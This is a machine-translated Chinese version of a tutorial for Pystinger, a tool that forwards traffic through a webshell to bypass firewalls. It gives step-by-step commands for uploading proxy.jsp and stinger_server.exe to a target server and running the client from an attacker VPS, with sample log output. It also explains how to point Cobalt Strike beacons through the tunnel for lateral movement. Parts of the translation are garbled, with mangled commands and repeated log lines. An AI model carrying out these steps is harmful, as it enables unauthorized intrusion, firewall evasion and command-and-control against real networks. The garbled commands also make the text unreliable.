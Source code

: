 # Pystinger:使用 Webshell 绕过防火墙进行流量转发

> 原文：<https://kalilinuxtutorials.com/pystinger-bypass-firewall-for-traffic-forwarding-using-webshell/>

[![Pystinger : Bypass Firewall For Traffic Forwarding Using Webshell](img//3ee7c86ee5482aa86db580a952b3eb7b.png "Pystinger : Bypass Firewall For Traffic Forwarding Using Webshell")](https://1.bp.blogspot.com/-7DKF_9JdRZE/YKEP97CeheI/AAAAAAAAJG0/lBBPdUIQrU4hyJLHIgCHGB3dNbCNI0yYQCLcBGAsYHQ/s728/tunnel%25281%2529.png)

**Pystinger** 通过 webshell 实现 **SOCK4 代理**和**端口映射**。它可以直接由 metasploit-framework、viper、cobalt strike 用于在线会话。Pystinger 是用 python 开发的，目前支持三种代理脚本:php、jsp(x)和 aspx。

**用途**

假设服务器的域名是[http://example.com:8080](http://192.168.3.11:8080/)服务器内网的 IP 地址是 192.168.3.11

**SOCK4 代理**

*   `**proxy.jsp**`上传到目标服务器并确保【http://example.com:8080/proxy.jsp】的[能够访问，页面返回 **`UTF-8`**](http://example.com:8080/proxy.jsp)
*   `**stinger_server.exe**`上传到目标服务器，运行 cmd `start **D:/XXX/stinger_server.exe**`启动 pystinger-server

> 不要直接运行`**D:/xxx/singer_server.exe**`，会造成 TCP 断网

*   在你的 VPS 上运行 **`./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000`**
*   您将看到以下输出

**root@kali:~#。/stinger _ client-w http://example.com:8080/proxy.jsp-l 127 . 0 . 0 . 1-p 60000
2020-01-06 21:12:47673–信息–619–本地监听检查…
2020-01-06 21:12:47674–信息–622–本地监听检查通过
2020-01-06 21:12:47674–信息–信息 远程服务器检查…
2020-01-06 21:12:47，696–INFO–644–远程服务器检查通过
2020-01-06 21:12:47，696–INFO–645–服务器配置—
2020-01-06 21:12:47，696–INFO–647–client _ address _ list =>[] 2020-01-06 21:12:47，696–INFO–647–SERVER _ LISTEN =>127 . 0 . 0 . 1:60010
2020-01-06 21:12:47，696–INFO–647–LOG _ LEVEL =>INFO
2020-01-06 21:12:47，697–INFO
2020-01-06 21:12:47697–INFO–647–READ _ BUFF _ SIZE =>51200
2020-01-06 21:12:47697–INFO–673–TARGET _ ADDRESS:127 . 0 . 0 . 1:60020
2020-01-06 21:12:47697 开始
2020-01-06 21:12:47，703–警告–502–socks 4a 服务器于 127.0.0.1:60000 开始
2020-01-06 21:12:47，703–警告–509–socks 4a 准备接受**

*   现在你已经在`**example.com**`的内网 VPS `**127.0.0.1:60000**`上启动了一个 *socks4a 代理*。
*   现在目标服务器 **( `example.com` ) `127.0.0.1:60020`** 已经映射到 VPS `**127.0.0.1:60020**`

C **多目标全球打击在线信标**

*   `**proxy.jsp**`上传到目标服务器并确保【http://example.com:8080/proxy.jsp】的[能够访问，页面返回 **`UTF-8`**](http://example.com:8080/proxy.jsp)
*   `**stinger_server.exe**`上传到目标服务器，运行 cmd `**start D:/XXX/stinger_server.exe 192.168.3.11**`启动 pystinger-server (192.168.3.11 是目标的内网 IP 地址)

> 192.168.3.11 可以更改为 0.0.0.0

*   在你的 VPS 上运行`**./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000**`
*   您将看到以下输出

**root@kali:~#。/stinger _ client-w http://example.com:8080/proxy.jsp-l 127 . 0 . 0 . 1-p 60000
2020-01-06 21:12:47673–信息–619–本地监听检查…
2020-01-06 21:12:47674–信息–622–本地监听检查通过
2020-01-06 21:12:47674–信息–信息 远程服务器检查…
2020-01-06 21:12:47，696–INFO–644–远程服务器检查通过
2020-01-06 21:12:47，696–INFO–645–服务器配置—
2020-01-06 21:12:47，696–INFO–647–client _ address _ list =>[] 2020-01-06 21:12:47，696–INFO–647–SERVER _ LISTEN =>127 . 0 . 0 . 1:60010
2020-01-06 21:12:47，696–INFO–647–LOG _ LEVEL =>INFO
2020-01-06 21:12:47，697–INFO
2020-01-06 21:12:47697–INFO–647–READ _ BUFF _ SIZE =>51200
2020-01-06 21:12:47697–INFO–673–TARGET _ ADDRESS:127 . 0 . 0 . 1:60020
2020-01-06 21:12:47697 开始
2020-01-06 21:12:47，703–警告–502–socks 4a 服务器于 127.0.0.1:60000 开始
2020-01-06 21:12:47，703–警告–509–socks 4a 准备接受**

*   在 cobaltstrike 上添加监听器，监听器端口是`**60020**`(输出的`**RAT CONFIG**`中的处理程序/监听端口)，监听器地址是`**192.168.3.11**`
*   生成有效负载，上传到目标并运行。
*   当横向移动到其他主机时，可以将有效载荷指向 192.168.3.11:60020 以使信标在线

**自定义标题和代理**

*   如果 webshell 需要配置 cookie 或授权，可以通过— header 参数`**--header "Authorization: XXXXXX,Cookie: XXXXX"**`配置请求头
*   如果需要通过代理访问 webshell，可以通过代理`**--proxy "socks5:127.0.0.1:1081"**`设置代理

[**Download**](https://github.com/FunnyWolf/pystinger#cobaltstrikes-beacon-online-for-single-target)